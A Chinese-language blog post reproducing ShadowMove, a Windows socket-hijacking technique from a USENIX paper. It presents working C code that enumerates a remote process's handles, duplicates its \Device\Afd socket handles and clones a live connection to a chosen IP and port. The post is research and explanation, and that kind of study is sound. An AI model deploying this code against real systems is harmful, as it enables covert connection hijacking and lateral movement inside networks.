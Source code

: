 # ShadowMove复现与思考

## 简介

前段时间有几位老哥联名发了一篇论文，这篇论文描述了一种复制套接字劫持网络连接的技术，本文旨在于简单分析复现这种技术，如有错误欢迎指正。

作者给出的理论图如下，通过创建两个基于原套接字复制的套接字，定期挂起原套接字接收和响应特殊的数据包。

![](../.gitbook/assets/image%20%28206%29.png)

## 复现过程

尽管windows本身提供了WSADuplicateSocket函数，但是这个函数需要本地进程的socks句柄，而句柄只在本地进程才有意义，这篇文章的作者提出了一种从远程复制句柄技术的变体。

作者发现套接字的句柄等同于的名为\Device\Afd文件句柄，这个句柄可以直接是为socks使用\(虽然就是同一个，但说还是这么说\)，我们可以通过常规的句柄枚举技术从远程进程得到它，然后使用NtDuplicateObject函数将它复制到本地进程，本地进程再通过WSADuplicateSocket获取克隆套接字需要的参数，然后我们可以像使用自己的socket一样使用这个克隆过来的socket了。

![](../.gitbook/assets/image%20%28205%29.png)

在github有师傅分享了一份ShadowMove的代码，这里我做了一点简化。

首先师傅获取了远程进程的所有句柄。

```text
    //获取远程线程内所有句柄
    pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)calloc(SystemInformationLength, sizeof(UCHAR));
    while (pNtQuerySystemInformation(SystemHandleInformation,
                                     pSysHandleInfo,
                                     SystemInformationLength,
                                     &ReturnLength) == STATUS_INFO_LENGTH_MISMATCH) {
        free(pSysHandleInfo);
        SystemInformationLength = ReturnLength;
        pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)calloc(SystemInformationLength, sizeof(UCHAR));
    }

```

获取句柄之后将所有句柄克隆到了当前进程\(句柄只有在本地进程才有意义\)，对这个句柄的类型做了一个判断。\(这里我简单的做了一个优化，作者的源代码是判断所有句柄类型不等于0x28的句柄，其实所有\drivice\开头的文件句柄都是OB\_TYPE\_DEVICE, // 25,设备类型\)。

```text

    for (size_t i = 0; i < pSysHandleInfo->NumberOfHandles; i++) 
    {
        //句柄只在拥有者进程内有意义，所以这里需要通过NtDuplicateObject函数将句柄复制到当前进程
        if (pSysHandleInfo->Handles[i].ObjectTypeIndex == 0x25) {
            ntStatus = pNtDuplicateObject(hProcess,
                                          (HANDLE)pSysHandleInfo->Handles[i].HandleValue,
                                          GetCurrentProcess(),
                                          &TargetHandle,
                                          PROCESS_ALL_ACCESS, 
                                          FALSE,
                                          DUPLICATE_SAME_ACCESS);

            if (ntStatus == STATUS_SUCCESS) {
                pObjNameInfo = (POBJECT_NAME_INFORMATION)calloc(ObjectInformationLength, sizeof(UCHAR));

                if (NULL == pObjNameInfo) {
                    CloseHandle(TargetHandle);
                    free(pSysHandleInfo);
                    pSysHandleInfo = NULL;

                    return TargetSocket;
                }
```

随后比较简单的通过NtQueryObject函数查询句柄描述对象的部分属性，我们知道windows系统是对象驱动的，而在三环描述对象的是句柄，我们可以通过句柄查询一下句柄所描述对象的属性，这里查询了对象的设备描述符。

```text
    //查询指定句柄的部分属性，返回结果为OBJECT_NAME_INFORMATION的结构体
                while (pNtQueryObject(TargetHandle,
                                      (OBJECT_INFORMATION_CLASS)ObjectNameInformation,
                                      pObjNameInfo,
                                      ObjectInformationLength,
                                      &ReturnLength) == STATUS_INFO_LENGTH_MISMATCH)
                {
                    free(pObjNameInfo);
                    ObjectInformationLength = ReturnLength;
                    pObjNameInfo = (POBJECT_NAME_INFORMATION)calloc(ObjectInformationLength, sizeof(UCHAR));
                    if (NULL == pObjNameInfo) {
                        CloseHandle(TargetHandle);
                        free(pSysHandleInfo);
                        pSysHandleInfo = NULL;

                        return TargetSocket;
                    }
                }
                //判断句柄符号名是否为\\Device\\Afd，这个描述名的句柄等同于socks句柄
                if ((pObjNameInfo->Name.Length / 2) == wcslen(pcwDeviceAfd)) {
                    if ((wcsncmp(pObjNameInfo->Name.Buffer, pcwDeviceAfd, wcslen(pcwDeviceAfd)) == 0) &&//内存对比
                        IsTargetIPAndPort(TargetHandle, pIpAddress, dwPort)) { //如果这个句柄的对端地址和端口等同于输入，那就找到了。
```

最后这个师傅就直接开始复制套接字。

```text
       WsaErr = WSADuplicateSocketW((SOCKET)TargetHandle, GetCurrentProcessId(), &WsaProtocolInfo);
                        //返回一个用于创建共享套接字的结构体WSAPROTOCOL_INFOW。
                        if (WsaErr != 0) {
                            CloseHandle(TargetHandle);
                            free(pObjNameInfo);
                            free(pSysHandleInfo);
                            pSysHandleInfo = NULL;
                            pObjNameInfo = NULL;
                            return TargetSocket;
                        } else {
                            //通过获取的WSAPROTOCOL_INFOW结构体创建一个新的socks。
                            TargetSocket = WSASocket(WsaProtocolInfo.iAddressFamily,
                                                     WsaProtocolInfo.iSocketType,
                                                     WsaProtocolInfo.iProtocol,
                                                     &WsaProtocolInfo,
                                                     0,
                                                     WSA_FLAG_OVERLAPPED);
                            if (TargetSocket != INVALID_SOCKET) {
                                fwprintf(stdout, L"[OK] Socket was duplicated!\n");
                                CloseHandle(TargetHandle);
                                free(pObjNameInfo);
                                free(pSysHandleInfo);
                                pObjNameInfo = NULL;
                                pSysHandleInfo = NULL;

                                return TargetSocket;
                            }
                        }
                    }
                }

                CloseHandle(TargetHandle);
                free(pObjNameInfo);
                pObjNameInfo = NULL;
            }
        }
    }
```

## LINKS

原文如下:

{% embed url="https://www.usenix.org/system/files/sec20summer\_niakanlahiji\_prepub.pdf" %}







